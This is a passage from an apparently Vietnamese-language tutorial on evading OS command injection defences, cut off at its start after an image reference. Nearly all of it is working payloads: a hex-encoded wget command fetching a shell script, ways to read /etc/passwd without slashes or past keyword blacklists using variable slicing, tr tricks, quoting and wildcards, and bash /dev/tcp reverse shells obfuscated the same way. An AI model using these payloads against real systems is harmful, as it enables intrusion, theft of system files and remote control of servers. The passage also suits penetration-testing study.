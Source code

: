 (Trong đó giá trị `7767657420687474703a2f2f3132372e302e302e313a313231322f782e7368202d4f202f746d702f792e73680a` tương ứng với `wget http://127.0.0.1:1212/x.sh -O /tmp/y.sh` sau khi được hex encoding).

### c. Bypass without backslash and slash

Trong trường hợp server ngăn chặn OS Commnad Injection bằng cách validate dấu `/` và dấu `\`. Chúng ta thực hiện bypass theo các cách sau:

Read file on server

```sh
cat ${HOME:0:1}etc${HOME:0:1}passwd

cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
```

Reverse Shell

```sh
bash -i >& ${HOME:0:1}dev${HOME:0:1}tcp${HOME:0:1}127.0.0.1${HOME:0:1}8080 0>&1

bash -i >& $(echo . | tr '!-0' '"-1')dev$(echo . | tr '!-0' '"-1')tcp$(echo . | tr '!-0' '"-1')127.0.0.1$(echo . | tr '!-0' '"-1')8080 0>&1
```

### d. Bypass Blacklisted words

Read file on server:

```sh
c'a't /etc/passwd

c"a"t /etc/passwd

c\a\t /etc/passwd

ca$@t /etc/passwd

/???/c?t /etc/passwd

/???/c?t /?tc/?as?wd
```

Reverse Shell

```sh
b'a'sh -i >& /dev/tcp/127.0.0.1/8080 0>&1

b"a"sh -i >& /dev/tcp/127.0.0.1/8080 0>&1

b\a\s\h -i >& /dev/tcp/127.0.0.1/8080 0>&1

ba$@sh -i >& /dev/tcp/127.0.0.1/8080 0>&1

/???/b?sh -i >& /dev/tcp/127.0.0.1/8080 0>&1
```
